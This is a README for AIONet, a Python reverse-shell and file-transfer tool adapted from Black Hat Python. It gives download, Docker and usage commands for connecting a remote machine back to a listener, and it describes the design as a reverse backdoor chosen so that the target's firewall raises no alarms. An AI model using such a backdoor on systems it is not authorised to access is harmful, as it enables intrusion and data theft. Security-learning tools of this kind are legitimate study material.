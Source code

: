 # All-In-One Network Utility
AIONet was built as a multipurpose tool to replace netcat. Written in Python3, AIONet offers features like reverse shell spawning, file upload and file download.  
The idea for this tool was obtained from chapter 2 of Black Hat Python by Justin Seitz. This program aims to update BHP's tool to provide features like class-based structure, Python3 support and error checking. A detailed explanation of the differences between the two can be found at the end of this document.

## Dependencies
* Python3 (>=3.6)

## Download
### Option 1: Using `git clone`
```
git clone https://github.com/aarole/aionet.git
cd aionet/
```

### Option 2: Using `wget`
```
wget -O aionet.py https://raw.githubusercontent.com/aarole/aionet/master/aionet.py
```

### Option 3: Using Docker
An AIONet listener can be created by using an existing Docker image or by building your own.  

#### 3.1: Getting the image
##### 3.1.1: Using Docker Hub
```
docker pull aarole/aionet
```

##### 3.1.2: Building the image using the repository's Dockerfile
```
git clone https://github.com/aarole/aionet.git
cd aionet/
docker build -t aarole/aionet .
```

#### 3.2: Running the container
```
docker run --rm -it -v /path/to/some/directory:/opt -p PORT:PORT aarole/aionet -l -p PORT
```
* /path/to/some/directory
  * Directory (a) containing the files you may want to upload, or (b) to which you may want to download files
  * Directory path should be on your Docker host
* PORT
  * Port on which the listener will listen
  * Use the same port in all three locations

## Usage
```
On host:           python3 aionet.py -p PORT -l
On remote machine: python3 aionet.py -t TARGET -p PORT

Options:
-t target, --target target IP address of the remote listener
-p port, --port port       If used with -l, port where listener is to be created; else, port where remote listener exists
-l, --listen               Create a listener on the port defined using -p
-h, --help                 show this help message and exit
```

## Updates
* Program structure overhauled to allow for easy extension
  * Created individual classes for the server (listener/host) and the client (target/remote machine)
* Updated program to use reverse backdoors
  * Listener is created on the physical machine and remote target connects to it
  * Opening a port on the host ensures that firewalls on the remote target do not raise red flags
* Replaced getopt with argparse
* Moved file manipulation (download and upload) to post-shell operations
  * Used the base64 library to encode files during upload/download
  * Base64 encoding allows for easy transfer of files (especially non-text [pdf, png, jpg] files)
* Used the os library to allow for usage of cd and rm commands
* Added error-checking during file upload/download using SHA256 hashes (provided by hashlib)
  * Hash is sent from the source computer along with the message
  * The destination hashes the file locally
  * If the hashes match, the file is downloaded/uploaded; else, the file is deleted

## TODO
* Implement logging

## Known issues
* File download
  * ~~Non-text files (png, jpg, pdf) cause errors when downloading them~~
  * ~~Files are partially downloaded and a part of the base64 encoded file is printed~~
  * Fix: Switched from length-based recv to sentinel-based recv
* Exit condition
  * ~~exit command is not handled properly on the server~~
  * Fix: Moved handle() call in Server class to outside the while loop
